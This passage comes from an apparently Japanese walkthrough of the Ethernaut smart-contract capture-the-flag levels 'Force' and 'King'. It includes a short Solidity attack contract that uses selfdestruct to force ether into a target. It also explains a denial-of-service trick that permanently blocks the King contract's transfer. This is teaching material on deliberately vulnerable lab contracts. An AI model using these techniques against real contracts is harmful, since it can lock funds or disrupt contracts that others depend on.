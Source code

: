 
```
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

`selfdestruct(address)` という組み込み関数を使う。 この関数を使用す
ると、自身のコントラクトコードをストレージから削除し、全ての残高を `address`
へ送金できる。このとき、 `address` にpayableなメソッドが存在しなくてもよい。
この問題以降は、自分で攻撃用のコントラクトを書 いてデプロイする
必要がある。自分の場合は、 [Remix](https://remix.ethereum.org/) を使った。

```
contract Attacker {
    function Attacker() public payable {
        address victim = 0x1384Dee841458867C7DD45e2263CD485E5c96567;
        selfdestruct(victim);
    }
}
```

コントラクトのデプロイ時にetherを付与しおく必要がある。

## 6. King

```
contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

`king.transfer(msg.value);` が失敗することを想定していない。
Payableなメソッドが存在しないコントラクトから一回送金すれば、以降は
`king.transfer(msg.value);` で常に例外が発生して、 `king` が更新不可能になる。
